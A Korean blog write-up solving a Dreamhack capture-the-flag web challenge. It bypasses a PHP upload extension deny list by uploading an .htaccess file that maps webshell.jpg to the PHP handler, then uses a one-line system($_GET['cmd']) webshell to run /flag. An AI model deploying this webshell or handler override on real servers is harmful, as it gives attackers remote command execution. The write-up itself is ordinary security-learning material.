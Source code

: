 ```yaml
---
title: "드림핵 lv.1 - Apache htaccess"
date: 2025-03-10 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, file upload, apache, htaccess] 
description: 드림핵 Apache htaccess 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/418](https://dreamhack.io/wargame/challenges/418)
# 문제 설명
파일 업로드 기능을 악용하여 서버의 권한을 획득하세요 !

---
# 문제 풀이
## 코드 분석
```
[Code Structure]
src/
	- index.php
	- upload.php
000-default.conf
Dockerfile
run-lamp.sh
```
웹사이트에 접속하면 단순하게 파일을 업로드하는 기능만 있기 때문에 바로 코드를 살펴보기로 했다.
### upload.php
```php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml");

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name);
        $extension = end($temp);
       
        if(in_array($extension, $deniedExts)){
            die($extension . " extension file is not allowed to upload ! ");
        }else{
            move_uploaded_file($tmp_name, "upload/" . $name);
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>";
        }
    }
}else {
    echo "File is not selected";
}
```
메인 페이지에서 파일을 업로드하면 해당 php 코드가 실행된다. <br />
업로드된 파일은 "upload/"라는 디렉토리에 저장되고 `"/upload/" + filename` 형식으로 웹 접근이 가능하다.
### Dockerfile
```
# FLAG
COPY ./flag.c /flag.c
RUN apt install -y gcc \
    && gcc /flag.c -o /flag \
    && chmod 111 /flag && rm /flag.c
```
`Dockerfile`에 플래그 파일의 위치가 나와있다. "/flag"이다.
## 최종 분석
### 취약점 분석
`upload.php`를 보면 업로드된 파일을 url로 접근하는 것이 가능하다. <br /> 
심지어 업로드 할 때에 확장자 체크 말고는 별달리 파일의 안전성을 확인하는 부분이 없기에, 이 부분에서 File Upload 취약점이 발생한다.<br />
### 파일 확장자 필터링 우회
Apache 서버에서는 보통 `.htaccess`라는 설정 파일로 각 디렉토리마다 다른 설정을 가질 수 있게 하는 기능이 있다.<br />

이를 이용하면 .php가 아닌 확장자도 php 파일처럼 해석되게끔 설정해줄 수 있다.<br />
#### .htaccess 파일 작성
```
<Files "webshell.jpg">
    SetHandler application/x-httpd-php
</Files>
```
이렇게 작성하여 업로드 해주면 해당 파일은 "/upload/.htaccess" 경로로 저장된다. <br />
그러면 이제 "upload/" 디렉토리는 ₩에 명시된 설정 값이 적용된다.<br />
### 웹쉘 업로드하기
```php
<?php
	echo "Webshell is working!";
	system($_GET["cmd"]);
?>
```
이렇게 작성된 "webshell.jpg" 파일을 하나 만들어서 업로드해주면 된다. <br />
일반 텍스트 에디터(VSCode 라던가)로는 jpg 파일에 코드를 작성하는 것이 어려워서 본인은 터미널의 vim을 이용했다.
### 플래그 출력하기
"/upload/webshell.jpg"에 접속하면 "Webshell is working!"이라는 문구가 잘 뜨는 것을 보니 `.htaccess` 설정 값이 제대로 작동하고 있는 모양이다.<br />

이제 `cmd`값에 `Dockerfile`에서 알아냈던 "/flag" 파일을 실행시키면 플래그가 출력된다.
# 배운 것
드림핵 강의에서, `.htaccess`는 설정 파일을 분산시킬 수 있도록 아파치 서버에서 제공하는 기능이라고 했을 때 무슨 소리인가 잘 이해가 되지 않았는데 해당 문제를 풀어보면서 단번에 이해할 수 있었다.